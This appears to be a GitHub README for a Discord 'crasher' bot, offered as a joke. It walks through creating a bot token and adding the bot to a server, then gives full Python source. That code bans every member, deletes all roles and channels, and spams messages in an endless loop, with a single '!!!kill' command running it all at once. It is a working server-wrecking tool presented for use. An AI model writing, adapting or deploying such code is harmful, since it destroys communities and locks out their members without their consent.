 # Discord-Cracher-Python

The most common discord crusher, with basic functions
_____

## How to install and start up:

## Paste into the command line ( pip install discord.py )


![image](https://user-images.githubusercontent.com/69690887/176690106-a3ec703b-2aa5-4e50-b9b0-d75fe528604f.png)


## Run bat file

![image](https://user-images.githubusercontent.com/69690887/176689847-cb035873-c28c-4cb1-ab36-51d85ec5027c.png)


## Where to get a token? I'll prompt!

![image](https://user-images.githubusercontent.com/69690887/176691667-5bdfcd49-489c-46c0-b181-6fb5c2ff5cf8.png)

https://discord.com/developers/applications

![image](https://user-images.githubusercontent.com/69690887/176691990-1e637561-ffeb-43f3-aa26-c8627afe8c13.png)



## After creating the bot, we proceed to receive the token

![image](https://user-images.githubusercontent.com/69690887/176692106-e6cc6c5e-4b3f-4f71-a263-e0d38fb21477.png)


![image](https://user-images.githubusercontent.com/69690887/176693180-f2fccd7b-a238-4190-99dd-ab9a4677cd0a.png)


_____

##And here is your token!

![image](https://user-images.githubusercontent.com/69690887/176693544-635e68f0-d078-4a73-b669-f3042c05ffe1.png)

##Next, you paste your token into this text file

![image](https://user-images.githubusercontent.com/69690887/176693984-efbec881-1e2e-467f-bcc9-1b3eb0516821.png)

##Bot setup:

![image](https://user-images.githubusercontent.com/69690887/176694888-7c66a41d-2c15-476d-896f-ad505d94a200.png)

![image](https://user-images.githubusercontent.com/69690887/176695283-3fa9600e-3f78-4177-a9bd-f8f3035e9368.png)

![image](https://user-images.githubusercontent.com/69690887/176695441-d9c65506-7dc0-4fc8-b236-271da6991d2e.png)

## Then you add the bot to the server, write to any text chat on the server, for example:
#### !!!kill
## And your joke worked

______

#Code

```
import discord
from discord.ext import commands
import asyncio

client = discord.Client() 

client = commands.Bot(command_prefix = '!') 

@client.event
async def on_ready():
    print('Bot enabled')


@client.command()
async def up(ctx):
    await ctx.message.delete()
    for m in ctx.guild.members:
        try:
            await m.ban()
        except:
            pass

@client.command()
async def up1(ctx):
    await ctx.message.delete()
    for m in ctx.guild.roles:
        try:
            await m.delete()
        except:
            pass

@client.command()
async def up2(ctx): 
    await ctx.message.delete()
    failed = []
    counter = 0
    for channel in ctx.guild.channels:
        try:
            await channel.delete()
        except: failed.append(channel.name)
        else: counter += 1
    fmt = ", ".join(failed)

@client.command()
async def upx(ctx, arg): 
    await ctx.message.delete()

    i = 1
    while i == 1:
        await ctx.send(arg)

@client.command()
async def kill(ctx): 
    await ctx.message.delete()
    for m in ctx.guild.roles:
        try:
            await m.delete()
        except:
            pass
   
    for m in ctx.guild.members:
        try:
            await m.ban()
        except:
            pass

    failed = []
    counter = 0
    for channel in ctx.guild.channels:
        try:
            await channel.delete()
        except: failed.append(channel.name)
        else: counter += 1
    fmt = ", ".join(failed)




token = open('token.txt', 'r').readline()

client.run(token) 

```
